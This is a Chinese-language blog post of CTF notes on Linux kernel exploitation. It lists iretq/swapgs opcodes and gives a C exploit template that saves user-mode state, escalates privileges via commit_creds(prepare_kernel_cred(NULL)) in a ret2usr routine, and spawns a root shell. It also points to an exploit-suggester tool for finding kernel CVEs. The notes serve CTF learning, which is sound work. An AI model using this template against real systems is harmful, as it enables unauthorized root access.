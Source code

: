 ```yaml
---
layout: post
tags: [kernel_pwn]
title: "kernel pwn module"
author: wsxk
date: 2022-10-11
comments: true
---
```


- [1. 常用字节码](#1-常用字节码)
- [2. kernel module](#2-kernel-module)
- [3. 如何找洞?](#3-如何找洞)
  - [3.1 LES](#31-les)



PS:更新与`2024-11-11`<br>

## 1. 常用字节码<br>

    iretq: 48 cf
    swapgs: 0f 01 f8

## 2. kernel module<br>
以目前浅薄的kernel pwn经验，总结了一套kernel pwn时会用到的基本操作，不定时更新~<br>
```c
#include <sys/types.h>
#include <stdio.h>
#include <linux/userfaultfd.h>
#include <pthread.h>
#include <errno.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>
#include <signal.h>
#include <poll.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <sys/sem.h>
#include <semaphore.h>
#include <poll.h>

size_t commit_creds=0;
size_t prepare_kernel_cred =0;

size_t user_cs;
size_t user_ss;
size_t user_sp;
size_t user_rflags;
void save_status(void){
    __asm__(
        "mov user_cs,cs;"
        "mov user_ss,ss;"
        "mov user_sp,rsp;"
        "pushf;"
        "pop user_rflags;"
    );
    printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
}

void get_root_shell(void){
    if(getuid())
    {
        printf("\033[31m\033[1m[x] Failed to get the root!\033[0m\n");
        exit(-1);
    }
    printf("\033[32m\033[1m[+] Successful to get the root. Execve root shell now...\033[0m\n");
    system("/bin/sh");
}

//ret2usr
void get_root_privilege(){
    //printf("use ret2usr\n"); //don't use user func in kernel space!
    void * (*prepare_kernel_cred_ptr)(void *) = prepare_kernel_cred;
    int (*commit_creds_ptr)(void *) = commit_creds;
    (*commit_creds_ptr)((*prepare_kernel_cred_ptr)(NULL));
}
```

## 3. 如何找洞?<br>
有的CTF题目会给一个ko文件（内核驱动模块），可以通过ida逆向分析来挖掘漏洞。那么，如果CTF题目只给了一个linux kernel，你又该如何应对呢？<br>

### 3.1 LES<br>
这就不得不提到一个牛逼的开源工具`LES(linux-exploit-suggester)`了，其已在github上开源：[https://github.com/The-Z-Labs/linux-exploit-suggester](https://github.com/The-Z-Labs/linux-exploit-suggester)<br>
通过下载其脚本并运行，我们可以得知两件事:<br>
```
1. 当前linux kernel 可能能够利用的 cve漏洞
2. 当前linux kernel 开启/关闭的 安全加固措施
```


<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>